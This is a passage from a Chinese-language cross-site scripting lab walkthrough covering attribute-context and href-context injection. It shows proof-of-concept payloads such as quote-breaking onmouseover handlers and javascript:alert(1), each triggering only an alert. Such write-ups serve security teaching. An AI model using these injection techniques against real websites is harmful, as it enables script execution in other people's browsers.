![image-20220123193823416](https://gitee.com/xxb667/img/raw/master/img/image-20220123193823416.png)

点击链接弹出信息

![image-20220123193854213](https://gitee.com/xxb667/img/raw/master/img/image-20220123193854213.png)

#### 后台代码如下

```
<a href="" onclick="alert(01)" '="">'onclick = 'alert(01)'</a>
```

![image-20220123194024086](https://gitee.com/xxb667/img/raw/master/img/image-20220123194024086.png)

### 其他payload

```
'onmouseover='alert(2)'
```

```
'onmouseover='javascript:alert(3)'
```



## 2.8.XSS之href输出

### 输入任意信息

```
111
```

按F12进行源代码查看

可以看到输入的信息在**href**里面

![image-20220123194856073](https://gitee.com/xxb667/img/raw/master/img/image-20220123194856073.png)

点击链接后会出错

![image-20220123195034890](https://gitee.com/xxb667/img/raw/master/img/image-20220123195034890.png)

### 构造payload

```
javascript:alert(1)
```

![image-20220123195745062](https://gitee.com/xxb667/img/raw/master/img/image-20220123195745062.png)

## 2.9.XSS之js输出

### 输入任意信息
